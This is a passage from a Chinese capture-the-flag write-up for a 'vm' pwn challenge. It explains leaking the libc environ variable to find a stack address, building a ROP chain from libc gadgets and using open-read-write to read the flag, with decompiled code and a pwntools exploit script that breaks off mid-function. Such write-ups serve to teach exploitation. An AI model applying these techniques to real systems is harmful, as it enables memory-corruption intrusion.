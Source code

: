 ```python
        
        r.sendline(str(1))
        
        
        r.sendline(hlt)
        
        
        r.sendline(run)
```

搞puts地址到这里相信大家都会了，接下来干什么呢？学习新姿势——environ，根据大佬所说，这个环境变量打堆题经常用，在IO结构体不想打又条件允许时，直接打environ变量也是不错的选择。这个变量里存储了当前程序的栈地址，一是可以泄露地址构造rop链；二是可以直接把想要执行的语句与栈上的地址进行替换。比如里面存储的下一条指令是if判断，我们直接替换为存储了rop链的地址，程序就会去执行rop链。

开始构建rop链。先用pwntools在libc中搜索pop rdi，rsi和rdx的gadget，方便之后传参。接着把flag字符串存到程序提前开辟好的栈中。

```c
void FUN_00400b99(void)

{
  undefined4 uVar1;
  
  setbuf(stdout,(char *)0x0);
  FUN_00400aa0();
  mmap(&DAT_00123000,0x1000,3,0x22,-1,0);
  _DAT_00123000 = 0x2d2d2d2d2d2d2d2d;
  _DAT_00123008 = 0x2d2d2d2d2d2d2d2d;
  _DAT_00123010 = 0x4f57204f4c4c4548;
  _DAT_00123018 = 0x2d2d2d2d2d444c52;
  _DAT_00123020 = 0x2d2d2d2d2d2d2d2d;
  _DAT_00123028 = 0xa2d2d2d;
  DAT_0012302c = 0;
  while (DAT_00602080 != '\0') {
    uVar1 = FUN_004007b7();
    FUN_004007d7(uVar1);
    DAT_0060a0b0 = DAT_0060a0b0 + 1;
  }
  DAT_00602080 = 1;
  return;
}
```

这个函数没在main函数里看见是因为它是在init里被调用的，做题不要忘了去这些地方看看，说不定藏着东西呢？由此得到程序开辟的栈地址为0x00123000。使用read往这里放入flag字符串，最后是[orw](https://x1ng.top/2021/10/28/pwn-orw%E6%80%BB%E7%BB%93/)泄露flag。


```python
from pwn import *
r=process('./vm')
#r=remote('101.43.94.145',19999)
context.log_level='debug'
context.arch='amd64'
elf=ELF('./vm')
libc=ELF('./glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc.so.6')
push=str(0)
hlt=str(3)
call=str(4)
run=str(999999)
def read(fd,addr,size):
        r.sendline(push)
        
        r.sendline(str(size))
        
        r.sendline(push)
        
        
```